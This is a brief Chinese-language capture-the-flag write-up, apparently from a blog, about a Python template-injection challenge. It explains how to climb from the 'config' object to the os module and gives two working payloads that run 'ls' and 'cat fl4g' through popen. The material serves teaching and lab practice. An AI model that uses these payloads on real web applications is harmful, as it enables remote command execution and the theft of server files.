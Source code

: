  


---


---


---


---


---


## 十一、Web_python_template_injection

> 




<h3>解题方法：</h3>
1、python模板漏洞注入


> 
<h3>过程</h3>
表明存在漏洞

<hr/>
 查看全局变量config
可以发现未被禁用
思路1：直接查看服务器的本地文件
思路2：通过python的对象的继承一步步实现文件读取和命令执行，找到父类&lt;type ‘object’--寻找子类---找关于命令执行或者文件操作的模块


<hr/>
/{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
<pre><code>1、__ class__:查看变量所属的类
2、__ init __:初始化类，返回function
3、__ globals __: 获取function所处空间下可使用的module、方法以及所有变量
4、os.popen() 从一个命令打开一个管道
5、popen()：函数内的命令为要执行命令</code></pre>


<hr/>
读取fl4g的信息
/{{ config.__class__.__init__.__globals__['os'].popen('cat fl4g').read() }}



---


---


---
